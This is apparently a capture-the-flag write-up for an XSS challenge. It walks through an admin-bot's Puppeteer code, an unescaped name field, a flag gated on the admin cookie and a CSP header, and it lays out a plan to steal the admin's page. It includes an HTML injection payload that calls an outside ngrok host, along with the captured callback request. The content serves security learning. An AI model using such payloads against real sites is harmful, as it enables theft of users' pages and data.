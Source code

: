 ```javascript
	const browser = await puppeteer.launch({ args: ['--no-sandbox'], product: 'firefox' })
	var page = await browser.newPage()
	await page.setCookie({
		name: 'no_this_is_not_the_challenge_go_away',
		value: secret,
		domain: 'localhost',
		samesite: 'strict'
	})
	await page.goto(url)

	// idk, race conditions!!! :D
	await new Promise(resolve => setTimeout(resolve, 500));
	await page.close()
	await browser.close()
}

module.exports = { visit }
```

Let's try to extract the interesting lines from this source code. The logic is simple:
1. You post a JSON to `/record` with your name and score.
2. The application creates an unique `/share/:shareName` for you.
3. You can use `/report/:shareName` to report your share to the admin (the bot).

Upon reporting, the bot is going to visit your share's page. Let's look for some sort of XSS sink point. We can notice that the name we pass at `/record` is used on our share page without any particular escaping. 
```javascript
" ... This score was set by ${name} ... "
```
Also, the flag is printed on the page only if we have admin's secret cookie.
```javascript
if (req.cookies.no_this_is_not_the_challenge_go_away === nothisisntthechallenge) {
    extra = `deletion token: <code>${process.env.FLAG}</code>`
}
```
Finally, there is a CSP header on the page:
```html
<meta http-equiv='Content-Security-Policy' content="script-src 'nonce-${nonce}'">
```
The idea could be the following:
1. Submit an evil share containing a XSS payload in the `name` parameter
2. Report the created share to the bot
3. Use the XSS to steal the html document from the admin's browser

Let's first of all try to check what browser is used by the bot. 
By submitting the following payload we can see the bot is pinging back our webhook.
```python
# ping ngrok local instance
data = {"score" : "123", "name" : '<img src="https://8c68790a251f.ngrok.io"/>'}
```
```bash
Connection from 127.0.0.1:58110
GET / HTTP/1.1
Host: 8c68790a251f.ngrok.io
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost:9999/
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: cross-site
X-Forwarded-Proto: https
X-Forwarded-For: 52.207.14.64
```
